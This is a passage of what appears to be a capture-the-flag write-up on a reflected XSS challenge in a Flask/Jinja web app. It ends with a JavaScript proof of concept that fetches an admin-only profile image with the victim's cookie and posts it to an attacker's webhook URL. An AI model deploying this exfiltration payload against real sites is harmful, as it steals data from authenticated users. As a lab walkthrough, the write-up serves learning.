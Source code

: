Now based on the source code, it seems like there is a private URL for the administrators at `/admin/profile`.

![alt text](./.imgs/image16.png)

Inside the Jinja template, there will be a line that extracts the profile image of the administrators.

![alt text](./.imgs/image17.png)

Yet the route to the profile image `/v1/API/profile/get` is only accessible through an authorized connection with a cookie.

But the good news is, that any local HTTP requests from the domain itself will include the cookie inside of it if it's sent to the same domain. So we can totally use functions like `fetch` to grab the profile image and then send that image back to our server. And since I am too broke to host my own globally accessible servers, I will just use the free options such as [Webhook](https://webhook.site/) instead.

Now finally, if you spend time playing around with the source code a bit, you can craft your own PoC code for the malicious payload, similar to my solution below.

```js
// Reflected XSS PoC
let webhook = `YOUR_WEBHOOK_URL`; // Replace this

fetch(`http://127.0.0.1:5000/v1/api/profile/get`)
  .then((e) => e.blob())
  .then((e) => {
    let t = new File([e], `image.jpg`, {
        type: e.type,
      }),
      p = new FormData();
    p.append(`file`, t),
      fetch(webhook, {
        method: `POST`,
        body: p,
      });
  })
```